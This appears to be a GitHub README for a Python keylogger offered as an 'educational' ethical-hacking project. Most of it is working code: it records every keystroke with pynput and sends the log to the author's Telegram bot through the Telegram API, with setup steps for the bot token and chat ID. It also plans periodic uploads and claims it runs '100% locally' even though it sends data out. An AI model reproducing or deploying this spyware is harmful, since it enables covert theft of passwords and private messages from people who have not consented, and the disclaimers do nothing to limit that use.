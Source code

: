 # KeyTrack-Lab 🔐

A simple Python keylogger designed for cybersecurity education and personal learning. This project captures keystrokes locally and sends them to your Telegram account via a bot. Ideal for practicing ethical hacking, input monitoring, and bot-based alerting.

> ⚠️ This tool is for **educational use only**. Never deploy keyloggers without **explicit permission**. Misuse may be illegal.

---

## 🛠 Features

- Logs all keystrokes in real time
- Sends keystroke logs to Telegram when stopped
- Simple, readable Python code
- Runs 100% locally

---

## 📦 Requirements

- Python 3.x
- Libraries:
  ```bash
  pip install pynput requests
---

🤖 Setup Instructions
1. Create a Telegram Bot

    Search for @BotFather on Telegram

    Send /newbot and follow the prompts

    Copy your Bot Token

2. Get Your Chat ID

    Start a chat with your bot by sending it any message (e.g., "Hello")

    Visit the following in your browser:

    https://api.telegram.org/bot<YOUR_BOT_TOKEN>/getUpdates

    Look for "chat": {"id": YOUR_CHAT_ID} in the JSON response

🧪 Usage
1. Save the script below as keylogger_telegram.py:

import requests
from pynput import keyboard
```python
BOT_TOKEN = "YOUR_BOT_TOKEN_HERE"
CHAT_ID = "YOUR_CHAT_ID_HERE"

log = ""

def send_telegram_message(message):
    url = f"https://api.telegram.org/bot{BOT_TOKEN}/sendMessage"
    payload = {
        "chat_id": CHAT_ID,
        "text": message
    }
    requests.post(url, data=payload)

def on_press(key):
    global log
    try:
        log += key.char
    except AttributeError:
        if key == keyboard.Key.space:
            log += " "
        else:
            log += f" [{key.name}] "

def on_release(key):
    if key == keyboard.Key.esc:
        send_telegram_message("Keylogger stopped. Logged keys:")
        send_telegram_message(log)
        print("Logging stopped and sent to Telegram.")
        return False

with keyboard.Listener(on_press=on_press, on_release=on_release) as listener:
    listener.join()
```
2. Run the script:
```bash
python keylogger_telegram.py
```
3. To stop logging:

    Press the Esc key

    The full log will be sent to your Telegram chat

🔒 Ethics & Legal Disclaimer

This tool is meant for local use, educational purposes, and authorized testing only. Unauthorized use of keyloggers is illegal in many jurisdictions. Always ensure you have explicit consent before monitoring any input.
🚀 Future Ideas
```
    Add timestamped logging

    Periodic updates to Telegram

    Save logs to local file

    Extend to mouse input
```
📚 License

MIT License — feel free to use and adapt with credit.
👨‍💻 Author

[Zain M]
Learning Lab Projects – Ethical Hacking and Automation
